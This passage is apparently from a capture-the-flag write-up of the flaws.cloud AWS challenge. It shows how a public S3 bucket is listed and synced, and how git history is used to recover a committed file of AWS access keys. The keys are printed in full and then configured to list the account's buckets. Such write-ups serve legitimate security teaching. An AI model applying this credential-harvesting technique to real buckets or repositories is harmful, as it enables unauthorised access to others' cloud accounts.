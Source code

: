 One thing I learned from this level was that the bucket in the level 1 was publicly accessible. Since I had already configured an account in my AWS CLI, the command I used worked fine. However, if no
account was configured (person with no AWS credentials), the ```--no-sign-request``` parameter would have been needed to list the bucket's content. 

## Level 3 
**_Description:_** The next level is fairly similar, with a slight twist. Time to find your first AWS key! I bet you'll find something that will let you list what other buckets are.

Just like the previous levels, we start off by listing the contents of the current bucket:
```sh
$ aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/
                           PRE .git/
2017-02-26 19:14:33     123637 authenticated_users.png
2017-02-26 19:14:34       1552 hint1.html
2017-02-26 19:14:34       1426 hint2.html
2017-02-26 19:14:35       1247 hint3.html
2017-02-26 19:14:33       1035 hint4.html
2020-05-22 14:21:10       1861 index.html
2017-02-26 19:14:33         26 robots.txt
```
This bucket contains a .git folder! The files were downloaded to the local system for further inspection. 
```
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ .   
```
By checking the commit history, it seems that the author added something they shouldn't have in a previous commit. 
```sh
$ git log                                              
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```
By checking out the previous branch, a file was recovered containing the author's access keys:
```sh
$ git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
```
```
$ ls
access_keys.txt  authenticated_users.png  hint1.html  hint2.html  hint3.html  hint4.html  index.html  robots.txt

$ cat access_keys.txt
access_key AKIAJ366LIPB4IJKT7SA
secret_access_key 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
```
The credentials were then used to configure a new profile and S3 buckets associated with this account were listed.
```sh
$ aws configure --profile flaws
AWS Access Key ID [None]: AKIAJ366LIPB4IJKT7SA
AWS Secret Access Key [None]: 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
Default region name [None]: 
Default output format [None]: 

$ aws s3 ls --profile flaws                 
2017-02-12 16:31:07 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
```